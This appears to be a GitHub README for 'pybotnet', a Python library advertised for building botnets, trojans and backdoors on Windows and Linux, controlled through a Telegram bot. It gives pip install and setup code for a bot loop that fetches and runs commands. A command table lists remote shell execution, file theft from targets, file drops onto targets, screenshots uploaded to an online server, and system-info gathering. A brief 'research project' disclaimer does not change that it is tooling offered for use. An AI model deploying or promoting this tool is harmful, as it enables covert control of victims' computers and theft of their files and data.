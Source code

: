  
 <p align="center">
  <a href='https://github.com/onionj/pybotnet' target='_blank'><img src='https://files.virgool.io/upload/users/271869/posts/wxs2bk9hkqfx/ezoxwssoikqm.jpeg' border='5' alt='trojan horse'/></a>  <h1 align="center">pybotnet</h1>
  <p align="center"> A Python Library for building <b>botnet</b> , <b>trojan</b>  or <b>backdoor</b> for windows and linux with Telegram control panel </p>


  <p align="center">
    <a href="https://github.com/onionj/pybotnet/blob/master/LICENSE">
      <img src="https://img.shields.io/badge/license-GPLv3-blue.svg" />
    </a>
    <a href="https://www.python.org/">
    	<img src="https://img.shields.io/badge/built%20with-Python3-red.svg" />
    </a>
  </p>
</p>
 
> Disclaimer: Please note that this is a research project. I am by no means responsible for any usage of this tool. Use it on your behalf. 


> [Persian document](https://vrgl.ir/G2i6b)  داکیومنت فارسی


### Features:
* Telegram anti-filter control panel
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* get target info 
* sleep source by Optional message
* get ls (dirctory list)
* export file to targets system
* import file from target system 
* get screenshot

for more, see commands table end of this page 



#### Requirements:

* Python 3.6 or higher
* Telegram account

### Usage:
```
pip install pybotnet
```

```python

from pybotnet import pybotnet
import time

# change TELEGRAM_TOKEN and  ADMIN_CHAT_ID to valid data:

# telegram api token (Get it from the telegram @botfather)
TELEGRAM_TOKEN = '1468299547:ABHs_________MzZcYxF_e00000000000'

# telegram account number ID (get it from @userinfobot)
ADMIN_CHAT_ID = '12345678910'



# * is_sheel:          if you compile code without shell: is_sheel=False
# * show_log:          just for debugging
# * send_system_data:  send system short info in every bot messages in telegram

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID,
                        show_log=True, send_system_data=True, is_shell=True)

delay = 10

while True:
    print('*-*'*15)
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:

> Send this COMMANDs to your api bot in telegram, using the admin account.

>  for run command on one target:  `<Target_MAC_Address> <command>`   `66619484755211 get_info` 


COMMAND | Sample | DO THIS | version | tested on |
--------|--------|---------|--------------------------|-----------|
`get_info` | `get_info` |return system info | 0.06 | windows, linux |
`do_sleep <scconds> <message (Optional)>` | `do_sleep 99999 hi, i see you!` | \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 | windows, linux |
`cmd <system command>` | `cmd mkdir new_folder` | run system command in shell or cmd (Be careful not to give endless commands like `ping google.com -t`  in windows or `ping google.com` in linux)  TODO:add timeout| 0.07 | windows, linux|
`ls <route>` | `ls C:\ `,` ls /home` |Returns a list of folders and files in that path | 0.09 | windows, linux |
`export_file <link>` | `export_file https://github.com/onionj/pybotnet/archive/refs/heads/master.zip` | target donwload this file and save to script path | 0.14 | windows linux|
`import_file <file_route>` |`import_file /home/onionj/folder/somting.png` | get a file from target system (limit:5GB & 20min)| 0.17.0 |  windows, linux|
`screenshot` | `screenshot` | Takes a screenshot, uploads it to the online server and return the download link | 0.18.1 |  windows, linux |
`help` | `help` | send commands help | 0.18.5 | windows, linux |
`/start` | `/start` | run `help` command !! | 0.18.7 | windows, linux |

> If you like this repo and find it useful, please consider ★ starring it (on top right of the page) and forking it :)

> [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD)

> Sample GUI Trojan created by pybotnet: [VINET](https://github.com/onionj/vinet)
